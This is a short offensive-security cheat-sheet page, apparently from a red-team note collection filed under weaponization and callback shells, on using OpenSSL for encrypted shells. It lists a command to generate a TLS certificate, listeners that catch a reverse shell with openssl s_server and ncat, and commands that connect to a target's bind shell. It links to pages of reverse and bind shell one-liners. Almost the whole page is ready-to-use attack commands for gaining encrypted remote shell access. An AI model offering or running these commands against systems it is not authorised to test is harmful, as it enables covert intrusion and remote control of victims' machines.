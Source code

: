 # OpenSSL

## 01 - Reverse Shell

Generate TLS certificate.

```
userware@hackware-os:~$ openssl req -x509 -newkey rsa:4096 -days 365 -nodes -subj "/C=<country_code>/ST=<state>/L=<locality>/O=<organization_name>/OU=<organization_unit>/CN=<domain.com>/emailAddress=<email> -keyout private.key -out certificate.crt
```

Shell handler.

```
userware@hackware-os:~$ openssl s_server -quiet -key private.key -cert certificate.crt -port <PORT>

userware@hackware-os:~$ ncat --ssl --ssl-key private.key --ssl-cert certificate.crt -lp <PORT>
```

## 02 - Bind Shell

Shell handler

```
userware@hackware-os:~$ openssl s_client -quiet -connect <target_IP>:<target_PORT>

userware@hackware-os:~$ ncat --ssl <target_IP> <target_PORT>
```

---
## References

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x01 - Weaponization/0xB - Callback Shells/One-Liners/Linux/Reverse Shells/OpenSSL|OpenSSL: Reverse Shells]]

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x01 - Weaponization/0xB - Callback Shells/One-Liners/Linux/Bind Shells/OpenSSL|OpenSSL: Bind Shells]]